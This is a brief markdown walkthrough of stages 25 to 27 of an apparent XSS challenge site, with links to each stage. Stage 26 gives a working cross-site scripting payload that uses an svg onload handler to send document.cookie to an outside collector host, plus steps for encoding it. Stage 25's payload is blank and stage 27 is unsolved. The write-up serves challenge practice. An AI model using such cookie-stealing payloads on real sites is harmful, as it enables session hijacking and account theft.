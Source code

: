 # Stage25 
- Link : [http://8e67e39d7e01213d5551c696ef8641b625cc8dd7.knock.xss.moe/](http://8e67e39d7e01213d5551c696ef8641b625cc8dd7.knock.xss.moe/)
- Payload : ``
- Note : Limit 35 character input 🌶🌶 
- Thanks for : `https://daoduythuan.github.io/knock-xss-moe/`

---
# Stage26
- Link : [http://89078a2f1f0b7d9f210b1876f4b20ada0a090ebb.knock.xss.moe/](http://89078a2f1f0b7d9f210b1876f4b20ada0a090ebb.knock.xss.moe/)
- Pre-Pre-Payload : `<svg onload=location="https://xss12.free.beeceptor.com/?se=".concat(document.cookie)`
- Payload : Pre-Pre-Payload --HTMLCHARACTER--> Pre-Payload --URLENCODE--> PAYLOAD

---
# Stage27
- Link : [http://295a1d900c5bf618101abf69083622d0f69aded1.knock.xss.moe/](http://295a1d900c5bf618101abf69083622d0f69aded1.knock.xss.moe/)
- 💀 So Hard , TIME TO THINKING






